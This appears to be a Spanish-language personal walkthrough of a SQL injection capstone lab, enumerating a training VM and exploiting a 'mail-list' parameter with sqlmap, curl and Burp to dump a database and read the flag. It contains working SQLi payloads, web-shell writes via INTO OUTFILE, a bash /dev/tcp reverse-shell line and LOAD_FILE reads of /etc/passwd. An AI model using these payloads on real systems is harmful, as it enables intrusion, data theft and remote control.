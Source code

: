 # Walk: SQL Injections Attacks - Module Exercise - VM 2 

## Fecha: 27/01/20
## Host: Ubuntu
## IP: 192.168.235.48

## Objetivo
Capstone Lab: Enumerate the Module Exercise - VM #2 and exploit the SQLi vulnerability to get the flag.

## Herramientas
1. nmap 
2. **sqlmap**
3. gobuster
4. **curl**
## Procedimiento y comandos
1. Paso 1: Enumeracion:
	- **nmap -open -sV -sC 192.168.193.48** | +
	- nmap -p 3306 --script mysql-empty-password,mysql-brute,mysql-info 192.168.193.48 | -
	- nmap -p 80 --script http-vuln* 192.168.193.48 | -
	- nmap -p 80 --script http-sql-injection 192.168.193.48 | -
	- gobuster dir -u http://192.168.235.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | -
	- **sqlmap -u "http://192.168.193.48" --data="mail-list=test@test.com" -p mail-list --batch** | +
	- Enumeramos la base de datos:
	- **sqlmap -u "http://192.168.193.48" --data="mail-list=test@test.com" -p mail-list --dbs --batch** | +
	```	
		available databases [2]:
		[*] animal_planet
		[*] information_schema
	```
	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D animal_planet --tables** | +
	```
	Database: animal_planet
	[1 table]
	+-------------+
	| subscribers |
	+-------------+
	```
	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D information_schema --tables** | +
	```
	Database: information_schema
	[79 tables]
	+---------------------------------------+
	| ADMINISTRABLE_ROLE_AUTHORIZATIONS     |
	| APPLICABLE_ROLES                      |
	| CHARACTER_SETS                        |
	| CHECK_CONSTRAINTS                     |
	| COLLATIONS                            |
	| COLLATION_CHARACTER_SET_APPLICABILITY |
	| COLUMNS_EXTENSIONS                    |
	| COLUMN_PRIVILEGES                     |
	| COLUMN_STATISTICS                     |
	| ENABLED_ROLES                         |
	| FILES                                 |
	| INNODB_BUFFER_PAGE                    |
	| INNODB_BUFFER_PAGE_LRU                |
	| INNODB_BUFFER_POOL_STATS              |
	| INNODB_CACHED_INDEXES                 |
	| INNODB_CMP                            |
	| INNODB_CMPMEM                         |
	| INNODB_CMPMEM_RESET                   |
	| INNODB_CMP_PER_INDEX                  |
	| INNODB_CMP_PER_INDEX_RESET            |
	| INNODB_CMP_RESET                      |
	| INNODB_COLUMNS                        |
	| INNODB_DATAFILES                      |
	| INNODB_FIELDS                         |
	| INNODB_FOREIGN                        |
	| INNODB_FOREIGN_COLS                   |
	| INNODB_FT_BEING_DELETED               |
	| INNODB_FT_CONFIG                      |
	| INNODB_FT_DEFAULT_STOPWORD            |
	| INNODB_FT_DELETED                     |
	| INNODB_FT_INDEX_CACHE                 |
	| INNODB_FT_INDEX_TABLE                 |
	| INNODB_INDEXES                        |
	| INNODB_METRICS                        |
	| INNODB_SESSION_TEMP_TABLESPACES       |
	| INNODB_TABLES                         |
	| INNODB_TABLESPACES                    |
	| INNODB_TABLESPACES_BRIEF              |
	| INNODB_TABLESTATS                     |
	| INNODB_TEMP_TABLE_INFO                |
	| INNODB_TRX                            |
	| INNODB_VIRTUAL                        |
	| KEYWORDS                              |
	| KEY_COLUMN_USAGE                      |
	| OPTIMIZER_TRACE                       |
	| PARAMETERS                            |
	| PROFILING                             |
	| REFERENTIAL_CONSTRAINTS               |
	| RESOURCE_GROUPS                       |
	| ROLE_COLUMN_GRANTS                    |
	| ROLE_ROUTINE_GRANTS                   |
	| ROLE_TABLE_GRANTS                     |
	| ROUTINES                              |
	| SCHEMATA                              |
	| SCHEMATA_EXTENSIONS                   |
	| SCHEMA_PRIVILEGES                     |
	| STATISTICS                            |
	| ST_GEOMETRY_COLUMNS                   |
	| ST_SPATIAL_REFERENCE_SYSTEMS          |
	| ST_UNITS_OF_MEASURE                   |
	| TABLESPACES                           |
	| TABLESPACES_EXTENSIONS                |
	| TABLES_EXTENSIONS                     |
	| TABLE_CONSTRAINTS                     |
	| TABLE_CONSTRAINTS_EXTENSIONS          |
	| TABLE_PRIVILEGES                      |
	| USER_ATTRIBUTES                       |
	| USER_PRIVILEGES                       |
	| VIEWS                                 |
	| VIEW_ROUTINE_USAGE                    |
	| VIEW_TABLE_USAGE                      |
	| COLUMNS                               |
	| ENGINES                               |
	| EVENTS                                |
	| PARTITIONS                            |
	| PLUGINS                               |
	| PROCESSLIST                           |
	| TABLES                                |
	| TRIGGERS                              |
	+---------------------------------------+
	```
	- information_schema tiene varias tablas de interes:
	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D animal_planet -T subscribers --columns**
	```
	Table: subscribers
	[6 columns]
	+------------+-------------+
	| Column     | Type        |
	+------------+-------------+
	| status     | varchar(50) |
	| created_at | timestamp   |
	| donor_type | varchar(50) |
	| emails     | varchar(50) |
	| id         | int         |
	| is_donor   | varchar(50) |
	+------------+-------------+
	```
	- **sqlmap -u "http://192.168.193.48/" --data="mail-list=test@test.com" -p mail-list -D animal_planet -T subscribers --dump**
2. Paso 2: Definicion del angulo de ataque:
	- Escalar a RCE o Reverse Shell:
	- Es posible explorar --os-shell de sqlmap o directamente con burp obtener el shell haciendo uso de LOAD_FILE()
3. Paso 3: Definicion de payloads:
	- Burp RCE: **UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/rce.php';**
	- Burp RCE: '+union+select+null,null,null,null,'<?php+system($_GET["cmd"]);+?>',null+into+outfile+'/var/www/html/rce.php#
	- Burp Reverse Shell: ** UNION SELECT "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/your_ip/4444 0>&1\"'); ?>" INTO OUTFILE '/var/www/html/shell.php';**
 
4. Paso 4: Escalada a RCE:
	- Ejecutamos en el parametro mail-list el payload.
	- ** mail-list='+union+select+null,null,null,null,@@version,null'//** devuelve la version de mySql
	- ** mail-list='+union+select+null,null,null,null,@@version,null+into+outfile+'version.txt+\ **
	- ** mail-list='+union+select+null,null,null,null,load_file("/var/version.txt"),null'//**
5. Paso 5: Cambio de angulo de ataque:
	- Dadas las dificultades que imponen los permisos para escribir un shell intentamos obtener el flag con LOAD_FILE:
	- **curl -X POST http://192.168.193.48/ --data-urlencode "mail-list=' UNION ALL SELECT NULL,NULL,NULL,NULL,LOAD_FILE('/var/www/flag.txt'),NULL#" > test_lab_5; sleep 1; sed -n '305,320p' test_lab_5**
	- resultado positvo sin obtener RCE ni reverse shell
	- Alternativamente con sqlmap:
	- **sqlmap -r header-VM5.txt -p mail-list --file-read="/var/www/flag.txt"**
	- **cat /root/.local/share/sqlmap/output/192.168.193.48/files/_var_www_flag.txt**
## Troubleshooting
* Todos los intentos de escribir en el servidor NO dieron resultados:
- **"mail-list=' UNION ALL SELECT NULL,NULL,NULL,NULL,LOAD_FILE('/etc/passwd'),NULL#"**
- Este es el unico payload que funciona.. ya sea con curl o burp.. es decir solo podemos obtener archivos con **LOAD_FILE()**
- los intentos de obtener el shell con sqlmap fueron los siguientes:
* **sqlmap -r header-VM5.txt -p mail-list --os-shell --web-root "/var/lib/mysql/"**
* **sqlmap -r header-VM5.txt -p mail-list --os-shell --web-root "/tmp"**
* **sqlmap -r header-VM5.txt -p mail-list --os-shell --web-root "/var/www"**

